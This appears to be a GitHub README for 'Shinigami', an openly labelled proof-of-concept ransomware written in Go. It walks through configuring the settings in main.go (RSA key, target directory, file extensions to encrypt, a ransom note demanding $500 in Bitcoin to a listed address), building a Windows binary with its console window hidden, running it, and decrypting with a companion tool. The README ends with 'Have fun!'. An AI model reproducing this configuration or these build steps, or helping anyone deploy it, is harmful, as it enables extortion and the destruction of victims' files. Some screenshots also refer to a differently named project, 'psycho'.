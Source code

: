 # Shinigami
Shinigami PoC ransomware
![ICON](https://github.com/user-attachments/assets/00d9b120-88c0-4ee6-b1e9-97dd404dab7b)
<br>
Shinigami is a PoC ransomware written in go<br><br>
tested on windows 11
## possibilities:
<ul>
<li>using hybrid encryption (witch is fast and safe)</li>
<li>customize settings</li>
<li>good appearance</li>
<li>changing background picture</li>
</ul>

## requirements:
<ul>
<li>gcc (added to Path)</li>
<li>golang (you can download from here: https://golang.org/dl/)</li>
<li>fyne (golang library: http://www.fyne.io/fyne)</li>
</ul>

## to use:

### clone the repository

```
https://github.com/bala-ganesh-m/Shinigami-Ransomware/
```

### change settings

go to Shinigami/shinigami/main.go and change the settings:

```golang
	/*** SETTINGS ***/
	//server rsa public key ( if you want to change this you should first generate a rsa keypair next replace it in both ransomware and decryptor programs )
	serverpubkey := "-----BEGIN PUBLIC KEY-----\nMIIBojANBgkqhkiG9w0BAQEFAAOCAY8AMIIBigKCAYEA3eWrYNmEzwLXGT0HUqqu\nkrimoiBKZE9mIzWvN51YLONneY0B8/yiLgJxg5pUOp8AEnu3gQm9uPQzbdyZniQq\n58HzSS+2Py17/UWlwqZVueUQ/RBvhH/BaEDZlKK7SUzeUqWbC0klDeLQ1nY48DEJ\nD2wNkz3CWXgDqQ0tfOqy+hRrR6ispOZc7k2SDd6cX8jkKzacH7sxBDYDVT2E/nYP\nkOBcCUW2ywN/y0FE1uqxim+axwtFW652k5ARHalmOVIXM6Oky6r4x49MN8zkIZEC\nhGDIOxQGYUEtp+0NhmAMyl26DtI23NMjyTaB7+DYtEZzSYgBllmfla1RtoEgKaHI\ns30PIUvZQGmg6VcEEhfy0hbtjDjWANkBrNewK46mH9pwH2wsYmm9QSftUjF62PbM\nLrFxoJS1w6NeYTC+s5JqGnG3sftCzGXMI+VSRvoVAWU+mm/ntQj5yww4nRq4Ylre\nJZAsLRUfT87c5uomolGitlGPIyXjxhxgPzc5egvQ199BAgMBAAE=\n-----END PUBLIC KEY-----"
	//root directory ( only files in this directory and subfolders of this directory will be encrypted )
	rootdir := "E:\\"
	//valid file extensions to encrypt ( only files with these extensions will be encrypted )
	validfileextensions := []string{"lnk", "pdf", "doc", "docx", "docm", "xlsx", "xlsm", "jpg", "jpeg", "png", "mp3", "mp4", "mkv", "py", "cs", "c", "c#", "cpp", "pptx", "pkt"}
	//valid file size to encrypt ( only files that have the same or less weight than this will be encrypted )
	//here is 400MB --> 1024 * 1024 * 400 = 419430400
	validfilesize := 419430400
	//the massage you want to show to the victim
	message := "YOUR FILES HAVE BEEN ENCRYPTED \n\nAll of your important files have been locked with our encryption \nYou will not recover them without our decryption tool. \n\nDo not attempt to decrypt the files yourself \nDo not shut down or restart your PC.\n\n"
	message += "To restore access: \nSend $500 in Bitcoin to the address below. \nBitcoin Address: bc1qtnqwcwffkvh6dmu9twfg3x5svwew0lp077k86"
```

### create binary file

just go to Shinigami/shinigami directory and run: <br>

```
go build -ldflags -H=windowsgui -o Shinigami.exe main.go
```

-ldflags -H=windowsgui options will hide the console window

### run the file

just click on shinigami.exe file<br>
after some seconds desktop ppicture will change and a window like this will appear<br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychodemo.png?raw=true)<br>


and you can see that some of your files are encrypted<br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychoencrypteddemo.png?raw=true)<br>

### decrypting files

to decrypt files click on Get victimkey button. you will see a notepad window. <br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychovictimkeydemo.png?raw=true)<br>

copy this text and go to Shinigami/shinigamidecryptor and run:<br>

```
go run decryptor.go <victim key here>
```

decryptor will give you a 32 character text like this:<br>
```
k8T2fDFkKbdBwdlnbVgxJTucm0oNBdwa
```
now enter this text in Password textbox and click on Check password button. psycho will start to decrypt your files (it can take a while)<br>
![alt text](https://github.com/Null-byte-00/images/blob/master/psychodecryptdemo.png?raw=true)<br>

Now you got your files back<br>

Have fun!
